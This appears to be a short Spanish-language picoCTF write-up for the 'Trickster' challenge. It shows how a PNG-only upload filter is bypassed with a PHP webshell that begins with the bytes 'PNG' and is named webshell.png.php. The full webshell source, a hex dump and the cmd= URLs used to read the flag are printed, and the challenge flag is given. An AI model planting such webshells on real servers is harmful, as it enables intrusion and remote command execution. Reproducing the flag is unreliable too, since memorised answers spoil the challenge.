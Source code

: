 ### Descripción 
I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:64895/)!
### Solución 
entré al link del reto y le agregué robots.txt al likn para ver que encontraba 
http://atlas.picoctf.net:63239/robots.txt
encontré el archivo instruccions.txt y lo abrí y encontré las siguientes pistas:  busca la extensión png, los primeros bytes contienen PNG en hexadecimal: 50 4E 47 
así que cree un archivo webshell que cumpliera con esas validaciones para poder ejecutar comandos
┌──(kali㉿kali)-[~/picoCTF/trickster]
└─$ nano webshell

┌──(kali㉿kali)-[~/picoCTF/trickster]
└─$ cat webshell 
PNG
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>
┌──(kali㉿kali)-[~/picoCTF/trickster]
└─$ cp webshell  webshell.png.php
──(kali㉿kali)-[~/picoCTF/trickster]
└─$ xxd webshell.png.php
00000000: 504e 470a 3c3f 7068 700a 6966 2869 7373  PNG.<?php.if(iss
00000010: 6574 2824 5f47 4554 5b27 636d 6427 5d29  et($_GET['cmd'])
00000020: 2920 7b0a 2020 2020 6563 686f 2022 3c70  ) {.    echo "<p
00000030: 7265 3e22 3b0a 2020 2020 7379 7374 656d  re>";.    system
00000040: 2824 5f47 4554 5b27 636d 6427 5d29 3b0a  ($_GET['cmd']);.
00000050: 2020 2020 6563 686f 2022 3c2f 7072 653e      echo "</pre>
00000060: 223b 0a7d 0a3f 3e0a                      ";.}.?>.

lo subí  y al ejecutar ls .. encontré un archivo extraño llamado GQ4DOOBVMMYGK.txt el cual al ver el contenido tenía la bandera
http://atlas.picoctf.net:50585/uploads/webshell.png.php?cmd=ls 
http://atlas.picoctf.net:50585/uploads/webshell.png.php?cmd=%20cat%20../GQ4DOOBVMMYGK.txt
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}
### Notas adicionales
### Referencias
